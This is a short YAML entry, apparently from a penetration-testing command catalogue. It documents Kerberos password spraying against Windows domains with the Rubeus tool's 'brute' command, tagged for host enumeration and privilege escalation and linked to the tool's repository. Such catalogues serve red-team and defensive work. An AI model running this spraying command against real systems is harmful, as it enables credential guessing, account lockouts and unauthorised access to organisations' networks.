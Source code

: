 ```yaml
---
description: |
  Kerberos password spraying

  Command Reference:

    Password: The password to check for users.

command: |
  Rubeus.exe brute /password:<PASSWORD> /noticket
items:
  - Shell
target: |
  - Windows_target
OS:
  - Windows
environment: |
  - Local
  - Network
command_types:
  - Host_Enumeration
  - Privilege_Escalation
services:
  - Kerberos
references:
  - https://github.com/GhostPack/Rubeus
---
```

